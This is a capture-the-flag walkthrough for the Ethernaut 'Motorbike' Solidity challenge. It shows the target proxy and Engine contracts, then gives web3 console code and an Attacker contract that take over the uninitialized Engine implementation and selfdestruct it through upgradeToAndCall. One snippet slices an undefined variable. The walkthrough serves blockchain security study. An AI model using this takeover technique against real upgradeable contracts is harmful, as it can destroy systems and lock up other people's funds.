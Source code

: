 # 25. Motorbike

Ethernaut's motorbike has a brand new upgradeable engine design.

Would you be able to selfdestruct its engine and make the motorbike unusable ?

## Target contract

```solidity
// SPDX-License-Identifier: MIT

pragma solidity <0.7.0;

import "@openzeppelin/contracts/utils/Address.sol";
import "@openzeppelin/contracts/proxy/Initializable.sol";

contract Motorbike {
    // keccak-256 hash of "eip1967.proxy.implementation" subtracted by 1
    bytes32 internal constant _IMPLEMENTATION_SLOT = 0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc;
    
    struct AddressSlot {
        address value;
    }
    
    // Initializes the upgradeable proxy with an initial implementation specified by `_logic`.
    constructor(address _logic) public {
        require(Address.isContract(_logic), "ERC1967: new implementation is not a contract");
        _getAddressSlot(_IMPLEMENTATION_SLOT).value = _logic;
        (bool success,) = _logic.delegatecall(
            abi.encodeWithSignature("initialize()")
        );
        require(success, "Call failed");
    }

    // Delegates the current call to `implementation`.
    function _delegate(address implementation) internal virtual {
        // solhint-disable-next-line no-inline-assembly
        assembly {
            calldatacopy(0, 0, calldatasize())
            let result := delegatecall(gas(), implementation, 0, calldatasize(), 0, 0)
            returndatacopy(0, 0, returndatasize())
            switch result
            case 0 { revert(0, returndatasize()) }
            default { return(0, returndatasize()) }
        }
    }

    // Fallback function that delegates calls to the address returned by `_implementation()`. 
    // Will run if no other function in the contract matches the call data
    fallback () external payable virtual {
        _delegate(_getAddressSlot(_IMPLEMENTATION_SLOT).value);
    }
    
    // Returns an `AddressSlot` with member `value` located at `slot`.
    function _getAddressSlot(bytes32 slot) internal pure returns (AddressSlot storage r) {
        assembly {
            r_slot := slot
        }
    }
}

contract Engine is Initializable {
    // keccak-256 hash of "eip1967.proxy.implementation" subtracted by 1
    bytes32 internal constant _IMPLEMENTATION_SLOT = 0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc;

    address public upgrader;
    uint256 public horsePower;

    struct AddressSlot {
        address value;
    }

    function initialize() external initializer {
        horsePower = 1000;
        upgrader = msg.sender;
    }

    // Upgrade the implementation of the proxy to `newImplementation`
    // subsequently execute the function call
    function upgradeToAndCall(address newImplementation, bytes memory data) external payable {
        _authorizeUpgrade();
        _upgradeToAndCall(newImplementation, data);
    }

    // Restrict to upgrader role
    function _authorizeUpgrade() internal view {
        require(msg.sender == upgrader, "Can't upgrade");
    }

    // Perform implementation upgrade with security checks for UUPS proxies, and additional setup call.
    function _upgradeToAndCall(
        address newImplementation,
        bytes memory data
    ) internal {
        // Initial upgrade and setup call
        _setImplementation(newImplementation);
        if (data.length > 0) {
            (bool success,) = newImplementation.delegatecall(data);
            require(success, "Call failed");
        }
    }
    
    // Stores a new address in the EIP1967 implementation slot.
    function _setImplementation(address newImplementation) private {
        require(Address.isContract(newImplementation), "ERC1967: new implementation is not a contract");
        
        AddressSlot storage r;
        assembly {
            r_slot := _IMPLEMENTATION_SLOT
        }
        r.value = newImplementation;
    }
}
```

## Vulnerability

If you look carefully, the Engine contract is not initialized. One might think that it is given that `Motorbike` makes this call in its constructor : ` (bool success,) = _logic.delegatecall(abi.encodeWithSignature("initialize()"));` but it's a delegated call, so `Engine` is initialized inside `Motorbike` context, not inside it's own context.

Let's take advantage of that.

First, initialize the accounts in the console :

```js
const accounts = await web3.eth.getAccounts();
```

Now let's get the address of the implementation (`Engine`) from the proxy (`Motorbike`) contract:

```js
// Read storage slot 0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc which contains the address on 32 bytes
const implementationSlot = await web3.eth.getStorageAt(contract.address, "0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc");
// Skip 0x and the first 12 bytes to get the address value on 20 bytes
const implementationAddress = implementation.slice(26);
```

We can now prepare and send a call to `initialize` to take control of the `Engine` implementation :

```js
const callData = web3.eth.abi.encodeFunctionCall({name: "initialize", type:'function', inputs:[]}, []);
await web3.eth.sendTransaction({from: accounts[0], to: implementationAddress, data:callData})
```

Alright, all we need to do now is to selfdestruct that contract. We will do that by taking advantage of the delegatecall that is insude the `upgradeToAndCall` function to target our own contract that will be executed inside `Engine`'s context.

Deploy the following contract :

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Attacker {

    address owner;

    constructor() {
        owner = msg.sender;
    }

    function kill() public {
        selfdestruct(payable(owner));
    }
}
```

And save its address:

```js
// Change the address to whatever your Attacker contract was deployed at
const attackerAddress = "0xe892b0AaCe69e880DF1356daa0436D978203EbA8"
```

All there is left to do is to craft a message for `upgradeToAndCall` that will upgrage to our `attackerContract` and make a delegated call to it :

```js
// Generate the data for a call to the kill function of our Attacker contract
const callDataKill = web3.eth.abi.encodeFunctionCall({name: "kill", type:'function', inputs:[]}, []);

// Generate the data for a call to the upgradeToAndCall function, giving it as parameter our Attacker contract address
// as well as the encoded call to the kill function that we generated just before.
const callData = web3.eth.abi.encodeFunctionCall({name: "upgradeToAndCall", type:'function', inputs:[{type:'address', name:'newImplementation'},{type:'bytes', name:'data'}]}, [attackerAddress, callDataKill]);
```

Everything is ready, we just need to send this data to the `Engine` contract :

```js
await web3.eth.sendTransaction({from: accounts[0], to: implementationAddress, data:callData});
```

The `Engine` contract has self destructed, you can submit the challenge !